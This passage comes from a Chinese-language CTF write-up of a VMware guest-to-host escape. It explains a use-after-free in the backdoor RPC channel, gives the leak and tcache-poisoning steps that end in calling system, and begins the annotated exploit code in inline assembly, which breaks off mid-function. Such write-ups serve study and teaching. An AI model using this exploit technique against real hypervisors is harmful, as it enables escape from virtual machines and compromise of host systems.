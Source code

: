 ![](https://i.ibb.co/ZHVgstf/rwctf2.png)

```CPP=
void channel_recv_finish2(int cookie1,int cookie2,int channel_num,int *res){
        asm("movl %%eax,%%ebx\n\t"
                "movq %%rcx,%%r10\n\t"
                "movq $0x21,%%rbx\n\t"
                "movl $0x564d5868,%%eax\n\t"
                "movl $0x0005001e,%%ecx\n\t"
                "movw $0x5658,%%dx\n\t"
                "out %%eax,%%dx\n\t"
                "movl %%ecx,(%%r10)\n\t"
                :
                :
                :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10"
        );
}
```

## 漏洞利用
由上面的分析可以知，这个patch会导致`UAF`:如果我们在接收完成之后设置了`0x20`这个位，那么`output buffer`就会被释放掉，但由于它没有被清零，所以理论上我们可以无限次的将它`free`掉。有了这些条件，我们要完成整个利用就不难了。

利用步骤如下:
`Leak:`
1. 开两个`channel:A，B`
2. `A`的`output buffer`为`buf_A`,然后`A`释放`buf_A`
3. 这时让`B`准备给`guest`发`output`,`B`会分配一个`buffer`，我们利用`info-set`和`info-get`来控制我们分配的`buffer`大小，使得`B`的`output buffer: buf_B=buf_A`。
4. `A`再次释放`buf_A`，这也导致了`buf_B`被释放。这个时候我们就可以`leak`出`buf_B`的`fd`了,但是这个指针没有什么用，我们想要的是`text base`。
5. 因此我们再执行命令`vmx.capability.dnd_version`,这会让`host`分配一块内存来存放一个`obj`,通过控制`buffer`大小我们可以刚好让`buf_B`被用来存放一个`obj`。而这个`obj`里面有`vtable`,我们可以`leak`出来计算`text base`。注意我们一直没有接受`B`的输出，只是让它做好准备(分配output buffer)。直到这个时候我们才接受它的输出，完成`leak`

`Exploit`

有了`leak`的方法，`exploit`的也是类似的了。简单来说就是`UAF`，把`tcache`的`fd`改到`bss`段，然后改函数指针为`system`,最后弹`calculator`

我给作者的exp加上了注释，大家可以参考:
```cpp=
#include <stdio.h>
#include <stdint.h>
void channel_open(int *cookie1,int *cookie2,int *channel_num,int *res){
    asm("movl %%eax,%%ebx\n\t"
        "movq %%rdi,%%r10\n\t"
        "movq %%rsi,%%r11\n\t"
        "movq %%rdx,%%r12\n\t"
        "movq %%rcx,%%r13\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0xc9435052,%%ebx\n\t"
        "movl $0x1e,%%ecx\n\t"
        "movl $0x5658,%%edx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%edi,(%%r10)\n\t"
        "movl %%esi,(%%r11)\n\t"
        "movl %%edx,(%%r12)\n\t"
        "movl %%ecx,(%%r13)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r8","%r10","%r11","%r12","%r13"
       );
}

void channel_set_len(int cookie1,int cookie2,int channel_num,int len,int *res){
    asm("movl %%eax,%%ebx\n\t"
```